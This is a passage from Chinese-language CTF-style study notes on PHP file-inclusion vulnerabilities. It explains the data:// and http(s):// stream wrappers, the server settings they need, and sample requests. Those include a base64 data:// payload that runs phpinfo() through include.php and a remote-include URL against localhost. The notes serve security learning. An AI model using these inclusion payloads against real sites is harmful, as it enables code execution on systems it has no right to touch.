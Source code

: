   2. `data://text/plain;base64,`

     ```http
     http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
     ```

     ![图片描述](PictureFile/【Web】TOP漏洞.assets/bVbrQBD.jpeg)

#### `http:// & https://` 协议

- **条件**：

  - `allow_url_fopen`:on
  - `allow_url_include` :on

- **作用**：常规 URL 形式，允许通过 `HTTP 1.0` 的 GET方法，以只读访问文件或资源。CTF中通常用于远程包含。

- **用法**：

  ```awk
  http://example.com
  http://example.com/file.php?var1=val1&var2=val2
  http://user:password@example.com
  https://example.com
  https://example.com/file.php?var1=val1&var2=val2
  https://user:password@example.com
  ```

- **示例**：

  ```http
  http://127.0.0.1/include.php?file=http://127.0.0.1/phpinfo.txt
  ```
